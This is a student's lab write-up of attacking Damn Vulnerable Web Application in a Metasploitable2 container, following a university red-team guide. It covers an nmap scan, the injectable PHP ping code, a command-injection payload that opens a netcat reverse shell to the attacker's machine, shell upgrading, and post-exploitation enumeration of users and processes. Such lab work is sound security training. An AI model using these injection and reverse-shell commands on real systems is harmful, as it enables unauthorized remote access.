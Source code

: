 This lab uses [the N2H (Noobs 2 Hackers) Red Team Guide from ODU's Cybersecurity Student Association (CS2A) ](https://github.com/Cybersecurity-Student-Association/n2h-red/tree/main/01-Reverse%20Shells) 
## Intelligence Gathering
### Open Ports
Running the command 
```bash
sudo nmap -sV -sS -sC -A 192.168.56.117 -p-
```
(the IP address of my SEED VM ```192.168.56.117```) results in the following:
```
Nmap scan report for 192.168.56.117
Host is up (0.00026s latency).
Not shown: 65531 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:28:9a:6a:5e:b3:bf:cd:e5:36:3e:e8:13:ab:66:ba (RSA)
|   256 1a:fe:85:67:97:e9:47:0d:f7:6c:34:3c:35:4a:27:8d (ECDSA)
|_  256 53:fa:03:b6:15:44:8c:fd:4b:e1:76:2e:ef:12:a7:c3 (ED25519)
23/tcp open  telnet  Linux telnetd
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
MAC Address: 08:00:27:88:55:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
192.168.56.111
TRACEROUTE
HOP RTT     ADDRESS
1   0.26 ms 192.168.56.117

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.47 seconds
```

Opening the HTTP service on port 
The default credentials for [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA) are `admin/password`

## Vulnerability Analysis
Going to the `Command Execution` tab in DVWA, there is a field allowing users to ping an IP address. A screenshot of the page: 
![[Command_Injection_Screenshot.png]]
The "View Source" button gives the source code of the page. The source code is:
```php
 <?php if (isset($_POST["submit"])) {
     $target = $_REQUEST["ip"];

     // Determine OS and execute the ping command.
     if (stristr(php_uname("s"), "Windows NT")) {
         $cmd = shell_exec("ping  " . $target);
         echo "<pre>" . $cmd . "</pre>";
     } else {
         $cmd = shell_exec("ping  -c 3 " . $target);
         echo "<pre>" . $cmd . "</pre>";
     }
 } ?> 
```
From the code above, we can see that the `ip` field is vulnerable to command injection. This is what is known at remote code execution (RCE). This essentially means that any commands can be run on the machine through the `ip` field. RCE vulnerabilities can be mitigated by sanitization of input. Input sanitization removes unsafe characters from inputs. In this case, the semicolon (`;`) gives the ability to exit the `ping` command and execute another command.  
## Exploitation - Reverse Shells
### Step 1 - The Listener
```bash
nc -lnvp 9001
```
The program `netcat` is used to listen for incoming connections on port 9001. Here is a breakdown of the command:
- `nc` - the program `netcat`
- `-l` - create a listener
- `-n` - use numeric-only IP addresses
- `-v` - verbose mode
- `-p` - a port number. I chose 9001
Note: While I explain the different modifiers separately, they can be combined into a group. Linux allows combinations of switches for faster execution.
### Step 2 - Exploit RCE to Initiate the Reverse Shell
[This Reverse Shell Generator](https://www.revshells.com/) gives multiple commands which will create a reverse shell back to the attacker. In the `ip` field on the page, I enter my chosen reverse shell command.  The following worked for me: 
```bash
; nc -c sh 192.168.56.111 9001
```
A breakdown of the command:
- `;` -  the semicolon ends the previous command.
- `nc` - the netcat command
- `-c sh` - the command to execute when the connection is successful
- `192.168.56.111` - the IP address of my attacker machine
- `9001` - the port on my attacker machine listening for incoming connections
To the victim, the command will look like this:
```bash
ping ; nc -c sh 192.168.56.111 9001
```
The `ping` command will execute, but it will have no IP address to ping. Following that, the reverse shell will execute. It will create a connection back to the listener on the attacker machine. 
### Step 3 - Upgrading the Shell
From the [guide](https://github.com/Daniel-Tomov/n2h-red/blob/main/01-Reverse%20Shells/README.md) :
>Reverse shells are useful, but they have some limitations. For example, the key combination `ctrl-C` is a very common way to terminate a command in the shell. But, if you try this key combination in the reverse shell, you'll kill the shell and have to reestablish that connection, which can sometimes be very cumbersome. A common technique to upgrade a reverse shell is to use the Python TTY module.

To "upgrade" the shell, I used the following command in the terminal on the attacker side:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
Then press \<ctrl-z\> to put the process in the background. \<ctrl-z\> puts me back to the regular Kali shell. Then I use
```bash
stty raw -echo; fg
```
and 
```bash
export TERM=xterm
```
to get a "full" shell with ctrl-c and ctrl-l support.
## Post Exploitation
Below are the answers to the post exploitation questions from the guide:
- How many other users are on this machine? How do you know?
In the screenshot below, I ran the command
```bash
cat /etc/passwd | grep -v -E "/bin/false|nologin"
```
to see which users are on the system. I excluded users with `/bin/false` and `/usr/sbin/nologin` as default shells because they cannot login. There is one account which is an exception. The `ftp` user has a shell of `/bin/false`, but it has a folder in the `/home` folder. 
![[Users.png]]
- Can we use the credentials we found earlier for anything? If so, for what?
I tried using the `admin/password` credentials from earlier to login into the `ftp`, `user`, and `service` accounts, but the password `password` did not work. 
- Are there any other listening services/ports? (hint: use the `ss` and `netstat` utilities)
Running netstat shows there many processes with open ports running on the machine.
![[netstat.png]]
- What is the IP address of the exploited machine? Is this address the same as the one you used to access the website? Why or why not? If not, what does this suggest?
The IP of the exploited machine in this case is the `metasploitable2` Docker container. It will have a different IP address than the machine the Docker container is running on. In my case, the SEED VM has an IP address of `192.168.56.117`, but the metasploitable2 container's IP address is `172.16.10.2`. Docker IP addresses are usually in this format (`172.17.0.0/16` but the `docker-compse.yml` file specifies the `172.16.0.0/16` network). This indicates the DVWA application I attacked is running inside a Docker container.
- What other programs are running? Do any of them jump out as privilege escalation vectors? i.e., if we exploit them for a shell, which user will be running that shell?
The screenshot below contains the running processes in the metasploitable2 container. The `root` user has some processes. Maybe they can be exploited to gain further access.
![[Running_Processes.png]]
